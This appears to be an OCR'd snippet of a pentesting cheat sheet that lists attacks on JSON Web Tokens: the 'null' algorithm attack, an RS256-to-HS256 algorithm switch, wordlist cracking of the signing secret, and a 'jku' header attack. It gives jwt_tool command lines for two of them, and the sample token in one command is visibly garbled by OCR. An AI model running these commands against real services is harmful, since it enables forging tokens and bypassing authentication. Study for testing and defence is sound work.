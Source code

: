 1. `null` attack
2. Algorithm Switch Attack: from `RS256` to `HS256`, use public key as encryption key for `HS256`: `jwt_tool eyJBeXAiOiJKV1QiLCJhbGciOiJSUZI1Ni.eyJpc3MiOi JodHRwOlwvxC9kZW1vLnNqb2VyZGxhbm drzwiwZXIubmxcLyIsIm1hdCI6MTYYCJkYXRhIjp7ImhlbGxvijoid29ybGQifx0.MBZKIR......we_n7POBISAZYSMayihlweg -x k-pk public-key-pem`
3. JWT crack `jwt_tool <JWT Token> -C -d /wordlist.txt` 
4. `jku` 